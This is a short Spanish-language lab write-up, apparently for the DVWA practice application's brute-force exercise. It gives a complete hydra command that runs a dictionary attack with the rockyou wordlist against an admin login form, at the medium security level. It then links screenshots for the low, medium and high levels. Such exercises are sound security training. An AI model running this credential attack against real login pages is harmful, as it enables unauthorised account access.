 Utilizando hydra para realizar un ataque de diccionario para encontrar las credenciales de acceso.

La diferencia entre low y medium es el tiempo de respuesta entre accesos.

Comando - nivel medio:
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.168.1.206 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=beb3886943fd6314e7836dc7b8e33d79;security=medium:F=Username and/or password incorrect."

### Nivel LOW

![img](images/Low.png)

### Nivel Medio

![img](images/Medium.png)

### Nivel Alto

![img](images/Alto.png)
